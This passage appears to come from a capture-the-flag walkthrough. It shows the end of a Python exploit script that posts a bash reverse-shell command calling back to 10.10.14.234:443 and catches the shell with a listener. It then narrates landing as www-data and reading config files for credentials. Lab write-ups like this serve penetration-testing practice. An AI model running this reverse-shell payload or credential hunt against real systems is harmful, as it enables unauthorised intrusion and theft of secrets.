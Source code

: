 ```bash
        'cmd' : "bash -c 'bash -i >& /dev/tcp/10.10.14.234/443 0>&1'"
    }

    r = requests.post(main_url + "%s" % filename, data_post);

if __name__=='__main__':

    createFile()

    try:
        threading.Thread(target=getAccess, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()
```

![Untitled](images/Untitled%2028.png)

Ok, so we are logged as www-data, let’s see what can be found:

![Untitled](images/Untitled%2029.png)

Config files sometimes have credentials inside, let’s cat it:

![Untitled](images/Untitled%2030.png)
